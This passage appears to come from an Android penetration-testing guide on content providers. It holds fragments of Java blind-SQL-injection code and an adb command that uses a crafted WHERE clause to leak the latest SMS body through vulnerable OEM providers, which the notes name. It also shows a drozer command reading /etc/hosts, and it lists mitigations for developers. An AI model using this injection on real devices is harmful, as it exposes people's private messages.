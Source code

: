 ```java
      if (win == 0) return (char) lo;
      win = (win > 3) ? (win / 2) : (win - 1);
    } else {
      if (lo == 0 && win == 127) return '\0';
      lo = (win > 0) ? (lo + win) : (lo + 1);
    }
  }
}
```

adb example of a single probe
```bash
# Try to infer whether first char of latest SMS body is between '0'(48) and '9'(57)
adb shell cmd content update \
  --uri content://service-number/service_number \
  --bind rowid:s:123 \
  --where '1=1 AND unicode(substr((SELECT body FROM sms ORDER BY rowid DESC LIMIT 1),1,1)) BETWEEN 48 AND 57'
```

Notes
- Works only if the target table (e.g., sms) is in the same SQLite database used by the vulnerable provider
- insert()/update()/delete() must be callable by unprivileged apps (writePermission omitted)
- The exact URI and table names differ per OEM/provider; examples seen in the wild include:
  - content://service-number/service_number
  - content://push-mms/push
  - content://push-shop/push_shop

Mitigations for app/ROM developers
- Always declare both readPermission and writePermission on exported providers; prefer android:exported="false" by default
- Sanitize or bind selection / projection / sortOrder; do not concatenate caller input into SQL
- Use SQLiteQueryBuilder with a projection map and fixed WHERE templates; validate column names against a whitelist
- Keep sensitive tables in a separate DB not shared with untrusted providers

## **File System-backed Content Providers**

Content providers could be also used to **access files:**

![[../../../images/image (407).png]]

### Read **file**

You can read files from the Content Provider

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```

### **Path Traversal**
